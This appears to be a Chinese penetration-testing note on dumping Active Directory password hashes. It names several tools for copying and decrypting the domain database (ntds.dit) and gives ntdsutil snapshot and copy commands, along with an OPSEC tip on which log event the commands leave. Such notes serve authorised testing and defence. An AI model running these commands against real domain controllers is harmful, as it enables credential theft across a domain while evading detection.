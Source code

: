 ###### Credential Guard⚒️

[Defender Credential Guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard) 功能加入导致无法导出哈希。

涉及版本：

-   Windows Server 2016 及以后 Server 版本
-   Windows 11 22H2

##### Active Directory 数据库账户哈希获取

域控制器数据库 %SystemRoot%\\NTDS\\ntds.dit，存放域用户所有用户密码哈希。ntds.dit 使用 %SystemRoot%\\System32\\config\\SYSTEM 注册表配置中的密钥加密过。

由于和 SAM 数据库一样，ntds.dit 也是使用中无法直接复制为副本的，这里介绍的 4 种获取方法都能得到副本。

-   Volume Shadow Copy Service (VSS) 获取数据库
-   VssAdmin 获取数据库
-   VShadow 获取数据库
-   NinjaCopy 获取数据库

同样的拖下库后可以使用以下三种方法去获取其哈希。

-   QuarkPwDump 解密数据库
-   Secretsdump 解密数据库
-   Mimikatz 解密数据库

###### Volume Shadow Copy Service (VSS) 获取数据库

由于不能这俩文件被对应程序占用无法读取复制出来。

使用 Ntdsutil 创建备份获取其文件。

此工具在 Windows Server 2003、2008、2012 上默认存在。

1.获取历史快照

如果有历史快照看能不能获取历史数据信息。

```plaintext
// 历史快照
ntdsutil snapshot "List All" quit quit


// 现有挂载信息
ntdsutil snapshot "List Mounted" quit quit
```

2.新建实时快照

```plaintext
ntdsutil snapshot "activate instance ntds" create quit quit
```

*OPSEC：执行后日志系统 System 类别产生 Event ID 98 的日志。*

3.挂载快照复制数据

```plaintext
// 挂载快照
ntdsutil snapshot "mount {GUID}" quit quit

// 复制数据库
copy C:\$SNAP_XXXX_VOLUME$\Windows\NTDS\ntds.dit C:\ntds.dit
```
